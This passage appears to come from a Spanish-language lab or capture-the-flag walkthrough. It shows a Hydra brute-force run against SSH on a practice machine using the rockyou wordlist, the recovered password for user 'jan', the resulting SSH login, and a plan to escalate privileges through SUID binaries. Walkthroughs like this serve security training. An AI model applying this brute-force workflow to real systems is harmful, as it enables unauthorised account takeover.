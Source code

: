 ````
 hydra -t 64 -l jan -P rockyou.txt 10.10.244.192 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-14 07:02:07
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344398 login tries (l:1/p:14344398), ~224132 tries per task
[DATA] attacking ssh://10.10.244.192:22/
[STATUS] 704.00 tries/min, 704 tries in 00:01h, 14343743 to do in 339:35h, 15 active
[22][ssh] host: 10.10.244.192   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 11 final worker threads did not complete until end.
[ERROR] 11 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-14 07:03:32
````
## Escalada de Privilegios - SUID
````
ssh jan@10.10.244.192            
The authenticity of host '10.10.244.192 (10.10.244.192)' can't be established.
ED25519 key fingerprint is SHA256:XKjDkLKocbzjCch0Tpriw1PeLPuzDufTGZa4xMDA+o4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.244.192' (ED25519) to the list of known hosts.
jan@10.10.244.192's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Mon Apr 23 15:55:45 2018 from 192.168.56.102
jan@basic2:~$
````
Ya somos jan ahora a escalar priv
Hemos buscado binarios que podemos ejecutar como sudo -l pero no hay nada, vamos a ver con Busqueda de SUID